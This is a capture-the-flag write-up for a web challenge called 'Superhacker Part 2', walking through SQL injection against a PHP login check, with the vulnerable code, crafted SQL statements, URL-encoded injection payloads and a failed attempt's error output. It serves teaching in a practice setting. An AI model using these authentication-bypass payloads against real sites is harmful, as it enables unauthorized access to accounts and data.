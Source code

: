 # Superhacker Part 2
**Category:** Web

**Points:** 25

**Description:**

http://ctf.hackucf.org:4001/

Author: kablaa

## Write-up
This is the second part of [Superhacker Part1](../Web_SuperhackerPart1/README.md). Therefore, the opening page is the same:

![Opening page](opening_page.png)

For this challenge we need to get the code to give us `$flag2`. This means we need to get into the same part as for `Superhacker Part1`, but also need to ensure that the `SELECT` command returns at least one row from the `users` table. This is because the condition to get to `$flag2` is:
```php
if(mysqli_num_rows($res) > 0) {
    echo "$flag2" ;
}
```
This is going to require some SQL intection. We could get all rows from the table with a `SELECT` statement like:
```sql
SELECT * FROM users WHERE username LIKE '%'
```
However, to inject code into the current statement, we need to put the code into the `username` or `password`. We can use `OR` in an SQL statement to add our `LIKE` clause to the existing `SELECT` by having `username` start with a closing quote (`'`), and then our `OR username LIKE '%'` clause, followed by the single line comment symbol `--`. The single-line-comment marker will exclude the original closing quote from the username and all the `password` part of the line. The SQL statement we will be creating is:
```sql
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'
```
To do this we need to pass the string through the URL, because we also need to set `iamahacker` and `debug` (we don't actually need to set `debug`, but it's useful to check our statement). This means any special characters need to be set to the ASCII hex value for that character. This includes the closing (and any other) quote (`%27`), any spaces (`%20`) and the percent sign (`%25`). Therefore, our final URL should be:
```
http://ctf.hackucf.org:4001?username=%27%20OR%20username%20LIKE%20%27%25%27%20--&password=pass&iamahacker=1&debug=1
```
I tried this, but it didn't work, and gave an error:
```
flag{<flag1 here>}
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'

Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /app/index.php on line 21
```
So I now needed to figure out where this had gone wrong...

> I couldn't spot what was wrong. So, for now, and after consultation with a friend who had previously solved this, I used the URL:  
`http://ctf.hackucf.org:4001/?username=%27%20OR%20%27%27=%27&password=%27%20OR%20%27%27=%27&iamahacker=1&debug=1`  
which makes the select statement:  
`SELECT * FROM users WHERE username = '' OR ''='' AND password = '' OR ''=''`  
and gave me the flag. However, I will return and fix my original solution when I work out the problem.
